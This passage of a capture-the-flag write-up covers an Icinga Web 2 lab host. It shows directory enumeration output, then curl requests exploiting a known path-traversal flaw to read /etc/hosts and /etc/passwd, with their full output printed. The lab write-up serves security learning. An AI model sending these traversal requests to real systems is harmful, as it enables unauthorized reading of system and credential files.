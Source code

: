 ```
/navigation           (Status: 302) [Size: 0] [--> /icingaweb2/authentication/login?redirect=navigation]                                                                                  
/role                 (Status: 302) [Size: 0] [--> /icingaweb2/authentication/login?redirect=role]                                                                                        
/search               (Status: 302) [Size: 0] [--> /icingaweb2/authentication/login?redirect=search]
```

Found some interesting directories, but nothing was useful because we didn't have any credentials. Decided to enumerate on possible Icinga2 exploits online, and found some useful directory traversal related exploits.

{% embed url="https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/" %}

We can follow the PoC present on the page, and find that it works!

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/hosts 
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
matthew:x:1000:1000:matthew:/home/matthew:/bin/bash
ntp:x:108:113::/nonexistent:/usr/sbin/nologin
sssd:x:109:115:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
nagios:x:110:118::/var/lib/nagios:/usr/sbin/nologin
redis:x:111:119::/var/lib/redis:/usr/sbin/nologin
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
icingadb:x:999:999::/etc/icingadb:/sbin/nologin
```
